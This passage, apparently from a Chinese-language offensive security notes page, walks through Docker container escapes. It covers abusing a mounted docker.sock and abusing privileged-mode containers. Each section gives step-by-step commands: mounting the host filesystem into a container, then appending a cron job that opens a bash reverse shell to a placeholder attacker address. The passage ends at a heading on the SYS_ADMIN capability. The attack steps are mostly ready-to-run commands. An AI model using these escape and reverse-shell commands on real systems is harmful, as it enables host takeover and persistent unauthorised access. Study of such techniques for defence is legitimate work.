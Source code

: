     echo "nameserver 114.114.114.114" > /etc/resolv.conf
    ```

4. 查看宿主机 docker 信息
    ```bash
    docker -H unix:///host/var/run/docker.sock info
    ```

5. 运行一个新容器并挂载宿主机根路径
    ```bash
    docker -H unix:///host/var/run/docker.sock run -v /:/aa -it ubuntu:14.04 /bin/bash
    ```

6. 在新容器 /aa 路径下完成对宿主机资源的访问,写入计划任务文件，反弹 shell
    ```bash
    cd /aa
    ls
    echo '* * * * * bash -i >& /dev/tcp/x.x.x.x/9988 0>&1' >> /aa/var/spool/cron/root
    ```
    成功接收到宿主机反弹的 shell

**privileged 特权模式**
- 相关文章
    - [特权容器导致容器逃逸](https://github.com/Metarget/metarget/tree/master/writeups_cnv/config-privileged-container)

- 概述

    特权模式于版本 0.6 时被引入 Docker，允许容器内的 root 拥有外部物理机 root 权限，而此前容器内 root 用户仅拥有外部物理机普通用户权限。

    使用特权模式启动容器，可以获取大量设备文件访问权限。因为当管理员执行 `docker run --privileged` 时，Docker 容器将被允许访问主机上的所有设备，并可以执行 mount 命令进行挂载。

    当控制使用特权模式启动的容器时，docker 管理员可通过 mount 命令将外部宿主机磁盘设备挂载进容器内部，获取对整个宿主机的文件读写权限，此外还可以通过写入计划任务等方式在宿主机执行命令。

1. 首先以特权模式运行一个 docker 容器
    ```bash
    docker run -it --privileged=true ubuntu /bin/bash
    ```

2. 查看磁盘文件
    ```bash
    fdisk -l
    ```

3. dm-0 存在于 `/dev` 目录下,新建一个目录,将 `/dev/dm-0` 挂载至新建的目录
    ```bash
    mkdir /aaa
    mount /dev/dm-0 /aaa
    ```

4. 写入计划任务到宿主机
    ```bash
    echo '* * * * * bash -i >& /dev/tcp/x.x.x.x/2100 0>&1' >> /aaa/var/spool/cron/root
    ```

**capability SYS_ADMIN**
- 相关文章
    - [Understanding Docker container escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)

